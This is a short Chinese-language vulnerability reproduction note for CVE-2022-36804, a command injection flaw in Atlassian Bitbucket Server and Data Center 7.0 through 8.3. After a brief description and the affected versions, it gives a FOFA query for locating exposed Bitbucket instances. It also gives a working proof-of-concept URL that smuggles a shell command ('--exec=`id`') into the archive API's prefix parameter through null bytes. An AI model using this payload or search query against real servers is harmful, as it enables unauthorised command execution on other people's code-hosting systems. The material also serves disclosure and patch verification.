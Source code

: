 # Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

```
Atlassian Bitbucket 7.0～8.3
```

## FOFA

```
app="ATLASSIAN-Bitbucket"
```

## 漏洞复现

登录页面

![image-20221008102322162](./images/202210081023211.png)

验证POC

```
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![image-20221008102343377](./images/202210081023437.png)